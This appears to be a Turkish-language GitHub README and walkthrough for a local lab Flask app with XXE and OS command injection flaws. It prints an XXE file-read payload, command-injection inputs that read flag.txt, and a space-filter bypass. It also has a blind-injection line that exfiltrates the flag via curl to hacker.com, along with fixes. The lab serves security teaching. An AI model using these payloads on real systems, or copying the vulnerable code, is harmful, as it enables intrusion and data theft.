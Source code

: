 # xxe-oscommandinjection-lab
xxe and os command injection lab wich runs in local host

Dosyayı indirdikten sonra siteyi localhosta ayağa kaldırın.
sudo python3 app.py

![image](https://github.com/user-attachments/assets/ffb56d8b-f478-4e4e-98e6-41133167f877)

Lab artık çözmeye hazır.

![image](https://github.com/user-attachments/assets/193b4cd2-421e-463d-97ec-78f79a321393)

# Siber Güvenlik Laboratuvarında Flag.txt Dosyasını Ele Geçirmek: Detaylı Çözüm Rehberi

Bu yazıda, Flask framework'ü kullanılarak oluşturulmuş bir siber güvenlik laboratuvarını detaylı şekilde inceleyeceğiz. Amacımız, uygulamadaki güvenlik açıklarını tespit ederek **flag.txt** dosyasına erişim sağlamak. Her bir zafiyeti detaylı şekilde açıklayıp adım adım çözüm yollarını göstereceğiz.

---

## Aşama 1: Genel Sistem Analizi

Kodun genel yapısına baktığımızda, uygulama şu işlevselliklere sahip:

1. **Kullanıcı Girişi**:
   - XML tabanlı giriş doğrulama mekanizması mevcut.
   - Kullanıcı adı ve parola sabitlenmiş:  
     ```
     USERNAME = 'gtucyber'
     PASSWORD = 'turkcell@34000'
     ```

2. **Ping İşlevi**:
   - Kullanıcının, belirtilen bir IP adresine `ping` komutları çalıştırmasına izin veriliyor.
   - Bazı endpointlerde temel güvenlik kontrolleri bulunuyor.

3. **Hassas Dosyaya (flag.txt) Erişim**:
   - Amaç, sunucudaki `flag.txt` dosyasını ele geçirmek.

---

## Aşama 2: XXE (XML External Entity) Saldırısı

### Zafiyetin Keşfi

`/login` endpointindeki kodu inceleyelim:

```python
parser = etree.XMLParser(load_dtd=True, resolve_entities=True)
DOMTree = etree.fromstring(request.data, parser)

username = DOMTree.find("username").text
password = DOMTree.find("password").text
```

Burada **`load_dtd=True`** ve **`resolve_entities=True`** parametreleri, uygulamanın dış kaynaklı XML varlıklarını çözmesine izin veriyor. Bu durum **XXE zafiyeti**ne yol açar.

---

### XXE Nedir?

**XML External Entity (XXE)**, bir XML dosyasının dış kaynaklardan gelen varlıkları çözümlemesine izin verdiği durumlarda oluşan bir güvenlik açığıdır. Bu açık, sunucudaki hassas dosyalara erişim sağlanmasına veya uzaktan dosya yükleme işlemlerine olanak tanır.

---

### Payload Oluşturma ve Saldırı

Hedefimiz, kaynak kodunu okumak. Bu sayede logini aşacak bir adım bulabiliriz. Aşağıdaki gibi bir XML payload'ı oluşturabiliriz:

```xml
<!DOCTYPE foo [ 
  <!ELEMENT username (#PCDATA)>
  <!ELEMENT password (#PCDATA)>
  <!ENTITY xxe SYSTEM "file:///path/to/app.py">
]>
<credentials>
  <username>&xxe;</username>
  <password>dummy</password>
</credentials>
```


Bu payload şunları yapar:

1. Bir dış varlık tanımlar (**`<!ENTITY>`**).
2. Sunucunun dosya sistemindeki hassas dosyayı okur (**`file:///path/to/app.py`**).
3. Sonuçta, kullanıcı adı alanına bu dosyanın içeriğini yerleştirir.

---

### Payload'ı Gönderme

Bu payload'ı, bir araç kullanarak (ör. **Burp Suite**, **Postman**) şu şekilde gönderin:

**HTTP İsteği:**

![image](https://github.com/user-attachments/assets/5eca91d2-5888-4784-99b4-825e39f28c74)


Elde edilen yanıt, `app.py` dosyasının içeriğini gösterecektir:

```xml
<result>
  <username>app.py ın içeriği</username>
  <password>dummy</password>
</result>
```

---

## Aşama 3: Komut Enjeksiyonu (Command Injection)

### Zafiyetin Keşfi

Kodda `/ping`, `/filter`, ve `/blind` endpointleri, kullanıcının girdiği IP adreslerini bir sistem komutunda kullanıyor:

![image](https://github.com/user-attachments/assets/ac3ab295-d658-485f-a677-f53c5155dbb8)


```python
command = 'ping -c 4 {}'.format(ip_address)
result = os.popen(command).read()
```

Bu yöntem, kullanıcının `ip_address` parametresi üzerinden sisteme keyfi komutlar ekleyebileceği anlamına gelir. Örneğin:

```
127.0.0.1; cat /flag.txt
```

Bu giriş, aşağıdaki gibi bir sistem komutuna dönüşür:

```bash
ping -c 4 127.0.0.1; cat /flag.txt
```

---

### `/filter` Endpointindeki Kısıtlamaları Aşma

`/filter` endpointinde boşluk kontrolü yapılmakta:

```python
if ' ' in ip_address:
    return render_template('error.html')
```

Bu kısıtlamayı aşmak için şu yöntemleri kullanabilirsiniz:

1. **URL Encoding**:
   ```
   127.0.0.1%0Acat%20/flag.txt
   ```

2. **Alternatif Komut Ayırıcılar**:
   - Unix sistemlerinde `;`, `&&`, veya `|` gibi ayırıcılar kullanılabilir.

**Örnek Giriş**:

```
127.0.0.1;cat /flag.txt
```

**Sonuç**:
Ping çıktısının ardından `flag.txt` dosyasının içeriği görüntülenir.

---

### Blind Command Injection

![image](https://github.com/user-attachments/assets/87a16fa5-2765-40b6-90bc-7e592f2ec36d)

`/blind` endpointinde komutların çıktısı doğrudan kullanıcıya gösterilmiyor. Ancak komutun sonuçlarını bizim kontrol ettiğimiz bir servera göndererek zafiyeti kullanabiliriz:

```bash
127.0.0.1; curl -X POST -d "${cat%20flag.txt}" https://hacker.com  
```


---

## Güvenlik Önlemleri

Bu tür zafiyetlerden korunmak için şu yöntemleri uygulayın:

### XXE Koruması:
- **DTD** çözümlemesini devre dışı bırakın:
  ```python
  parser = etree.XMLParser(load_dtd=False)
  ```

- **XML Yerine JSON**: XML yerine JSON formatını kullanmak XXE riskini tamamen ortadan kaldırır.

---

### Komut Enjeksiyonu Koruması:
- Kullanıcı girdilerini çalıştırmadan önce doğrulayın ve temizleyin.
- Komut çalıştırmak için `subprocess.run` kullanarak güvenli bir whitelist uygulayın:
  ```python
  subprocess.run(['ping', '-c', '4', ip_address], check=True)
  ```

---

## Sonuç

Bu laboratuvar, siber güvenlik dünyasında karşılaşılabilecek iki temel zafiyeti (XXE ve Command Injection) anlamak için mükemmel bir örnek sunar. Güvenli kodlama uygulamaları ve giriş doğrulama yöntemleri, bu tür zafiyetlerin önlenmesinde kritik öneme sahiptir.
